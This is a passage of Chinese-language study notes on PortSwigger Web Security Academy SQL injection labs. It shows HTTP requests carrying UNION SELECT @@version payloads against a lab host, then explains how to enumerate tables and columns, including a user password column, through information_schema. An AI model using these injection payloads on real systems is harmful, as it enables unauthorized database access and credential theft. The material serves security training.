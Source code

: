 1. 這是一個正常的請求
    ```http
    GET /filter?category=Gifts HTTP/2
    Host: 0a7a00c203eaccac80ea12d400be0036.web-security-academy.net
    ```
2. 嘗試取得版本資訊，回應狀態碼 500
    ```http
    GET /filter?category=Gifts'+UNION+SELECT+@@version# HTTP/2
    ```
3. 增加欄位至回應狀態碼 200，取得版本資訊完成此 Lab
    ```http
    GET /filter?category=Gifts'+UNION+SELECT+@@version,NULL# HTTP/2
    ```
:::

### 列出資料庫內容

大多數資料庫類型（Oracle 除外）都有一組稱為資訊結構描述 (information schema) 的檢視表。這提供了關於資料庫的資訊。

例如，您可以查詢 `information_schema.tables` 來列出資料庫中的資料表：

```sql
SELECT * FROM information_schema.tables
```

這會回傳類似以下的輸出：

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo          Products    BASE TABLE
MyDatabase     dbo          Users       BASE TABLE  
MyDatabase     dbo          Feedback    BASE TABLE
```

此輸出表示有三個資料表，分別稱為 `Products`、`Users` 和 `Feedback`。

然後您可以查詢 `information_schema.columns` 來列出個別資料表中的欄位：

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

這會回傳類似以下的輸出：

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo          Users       UserId       int
MyDatabase     dbo          Users       Username     varchar
MyDatabase     dbo          Users       Password     varchar
```

此輸出顯示了指定資料表中的欄位以及每個欄位的資料類型。

::: tip Lab: [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
